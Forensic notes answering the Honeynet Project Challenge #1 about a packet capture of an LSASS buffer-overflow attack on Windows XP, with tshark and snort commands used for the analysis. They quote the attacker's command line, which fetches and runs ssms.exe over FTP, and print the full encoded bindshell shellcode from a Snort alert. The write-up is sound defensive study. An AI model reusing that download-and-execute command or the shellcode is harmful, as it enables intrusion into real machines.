

Honeynet Project Challenge #1 - pcap attack trace
- Which systems (i.e. IP addresses) are involved?
- What can you find out about the attacking host (e.g., where is it located)?
- How many TCP sessions are contained in the dump file?
- How long did it take to perform the attack?
- Which operating system was targeted by the attack? And which service? Which vulnerability? [os] atk-trace.pcap > pkt#16 > Native OS: Windows 5.1 i.e. Windows XP 
- Can you sketch an overview of the general actions performed by the attacker?
- port scan 445/tcp
- connect to \\192.150.11.111\ipc$\lsarpc
- exploit + bind shell to port 1957/tcp
- connect to port 1957/tcp to execute
echo open 0.0.0.0 8884 > o&echo user 1 1 >> o &echo get ssms.exe >> o &echo quit >> o &ftp -n -s:o &del /F /Q o &ssms.exe
ssms.exe - What specific vulnerability was attacked? stack buffer overflow in DsRolerUpgradeDownlevelServer() function of LSASS, subsequently used for remote code exec
- What actions does the shellcode perform? Pls list the shellcode. bindshell on port 1957/tcp
- Do you think a Honeypot was used to pose as a vulnerable victim? Why? yes, it ignores instruction to connect to an
- Was there malware involved? What's the name of the malware? yes; an Rbot backdoor
- Do you think this is a manual or an automated attack? Why? automated; attack duration too short (~16s) to be manual, invalid IPv4 address 0.0.0.0 specified
tshark -r atk-trace.pcap -z ip_hosts,tree -qnunique IP addr:
tshark -r atk-trace.pcap -T fields -e ip.dst -e ip.src | sort | uniqunique MAC addr:
tshark -r atk-trace.pcap -T fields -e eth.dst -e eth.src | sort | uniqp0f -r atk-trace.pcaptshark -r atk-trace.pcap -Y "tcp.flags==0x02" -nsudo snort -q -A console -r atk-trace.pcapgeoiplookup 98.114.205.102tshark -r atk-trace.pcap -qnz conv,tcp
capinfos atk-trace.pcap
[svc] Local Security Authority Subsystem Service (LSASS)
sudo snort -q -A console -c snort.conf -r atk-trace.pcap04/20-11:28:30.172468
[**] [1:2514:7] NETBIOS SMB-DS DCERPC LSASS DsRolerUpgradeDownlevelServer exploit attempt
[**] [Classification: Attempted Administrator Privilege Gain] [Priority: 1]
{TCP} 98.114.205.102:1828 -> 192.150.11.111:445\xeb\x10\x5a\x4a\x33\xc9\x66\xb9\x7d\x01\x80\x34\x0a\x99\xe2\xfa\xeb\x05\xe8\xeb\xff\xff\xff\x70\x95\x98\x99\x99\xc3\xfd\x38\xa9\x99\x99\x99\x12\xd9\x95\x12\xe9\x85\x34\x12\xd9\x91\x12\x41\x12\xea\xa5\x12\xed\x87\xe1\x9a\x6a\x12\xe7\xb9\x9a\x62\x12\xd7\x8d\xaa\x74\xcf\xce\xc8\x12\xa6\x9a\x62\x12\x6b\xf3\x97\xc0\x6a\x3f\xed\x91\xc0\xc6\x1a\x5e\x9d\xdc\x7b\x70\xc0\xc6\xc7\x12\x54\x12\xdf\xbd\x9a\x5a\x48\x78\x9a\x58\xaa\x50\xff\x12\x91\x12\xdf\x85\x9a\x5a\x58\x78\x9b\x9a\x58\x12\x99\x9a\x5a\x12\x63\x12\x6e\x1a\x5f\x97\x12\x49\xf3\x9a\xc0\x71\x1e\x99\x99\x99\x1a\x5f\x94\xcb\xcf\x66\xce\x65\xc3\x12\x41\xf3\x9c\xc0\x71\xed\x99\x99\x99\xc9\xc9\xc9\xc9\xf3\x98\xf3\x9b\x66\xce\x75\x12\x41\x5e\x9e\x9b\x99\x9e\x3c\xaa\x59\x10\xde\x9d\xf3\x89\xce\xca\x66\xce\x69\xf3\x98\xca\x66\xce\x6d\xc9\xc9\xca\x66\xce\x61\x12\x49\x1a\x75\xdd\x12\x6d\xaa\x59\xf3\x89\xc0\x10\x9d\x17\x7b\x62\x10\xcf\xa1\x10\xcf\xa5\x10\xcf\xd9\xff\x5e\xdf\xb5\x98\x98\x14\xde\x89\xc9\xcf\xaa\x50\xc8\xc8\xc8\xf3\x98\xc8\xc8\x5e\xde\xa5\xfa\xf4\xfd\x99\x14\xde\xa5\xc9\xc8\x66\xce\x79\xcb\x66\xce\x65\xca\x66\xce\x65\xc9\x66\xce\x7d\xaa\x59\x35\x1c\x59\xec\x60\xc8\xcb\xcf\xca\x66\x4b\xc3\xc0\x32\x7b\x77\xaa\x59\x5a\x71\x76\x67\x66\x66\xde\xfc\xed\xc9\xeb\xf6\xfa\xd8\xfd\xfd\xeb\xfc\xea\xea\x99\xda\xeb\xfc\xf8\xed\xfc\xc9\xeb\xf6\xfa\xfc\xea\xea\xd8\x99\xdc\xe1\xf0\xed\xcd\xf1\xeb\xfc\xf8\xfd\x99\xd5\xf6\xf8\xfd\xd5\xf0\xfb\xeb\xf8\xeb\xe0\xd8\x99\xee\xea\xab\xc6\xaa\xab\x99\xce\xca\xd8\xca\xf6\xfa\xf2\xfc\xed\xd8\x99\xfb\xf0\xf7\xfd\x99\xf5\xf0\xea\xed\xfc\xf7\x99\xf8\xfa\xfa\xfc\xe9\xed\x99\xfa\xf5\xf6\xea\xfc\xea\xf6\xfa\xf2\xfc\xed\x99ftp service @ invalid IPv4 address 0.0.0.0